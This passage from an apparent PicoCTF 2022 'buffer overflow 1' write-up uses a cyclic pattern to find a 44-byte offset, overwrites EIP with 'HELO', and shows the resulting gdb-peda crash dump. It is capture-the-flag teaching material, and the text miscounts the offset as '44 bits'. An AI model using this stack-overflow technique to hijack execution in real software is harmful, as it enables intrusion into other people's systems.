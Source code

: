 ![patternoffset.png](/assets/writeups/PicoCTF2022/patternoffset.png)

- So now, we can create a string of 44 bits and then control the value of EIP with the following 4 bits.  Trying this with a pattern of length 44 and then our own string (`Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3AbHELO`), then running again:

```c
gdb-peda$ run
Starting program: /home/shinris3n/sec/CTFs/PicoCTF2022/buffer overflow 1/vuln 
Please enter your string: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3AbHELO
Okay, time to return... Fingers Crossed... Jumping to 0x4f4c4548

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x41 ('A')
EBX: 0x41326241 ('Ab2A')
ECX: 0x41 ('A')
EDX: 0xffffffff 
ESI: 0x1 
EDI: 0x80490e0 (<_start>:       endbr32)
EBP: 0x62413362 ('b3Ab')
ESP: 0xffffd0b0 --> 0x0 
EIP: 0x4f4c4548 ('HELO')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x4f4c4548
[------------------------------------stack-------------------------------------]
0000| 0xffffd0b0 --> 0x0 
0004| 0xffffd0b4 --> 0xffffd184 --> 0xffffd334 ("/home/shinris3n/sec/CTFs/PicoCTF2022/buffer overflow 1/vuln")
0008| 0xffffd0b8 --> 0xffffd18c --> 0xffffd370 ("SHELL=/bin/bash")
0012| 0xffffd0bc --> 0x3e9 
0016| 0xffffd0c0 --> 0xffffd0e0 --> 0x1 
0020| 0xffffd0c4 --> 0x0 
0024| 0xffffd0c8 --> 0x0 
0028| 0xffffd0cc --> 0xf7ddb905 (<__libc_start_main+229>:       add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
```